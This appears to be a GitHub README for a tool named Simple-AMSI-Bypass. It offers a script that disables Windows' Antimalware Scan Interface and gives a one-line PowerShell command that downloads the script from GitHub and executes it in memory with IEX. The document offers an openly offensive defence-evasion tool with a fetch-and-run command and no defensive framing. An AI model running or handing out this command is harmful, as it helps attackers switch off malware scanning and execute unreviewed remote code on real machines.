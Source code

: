 # Simple-AMSI-Bypass

Script for running AMSI bypass. Run the script directly or use IEX to invoke.

```
IEX(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/The-Viper-One/Simple-AMSI-Bypass/main/Simple-Amsi-Bypass.ps1')
```
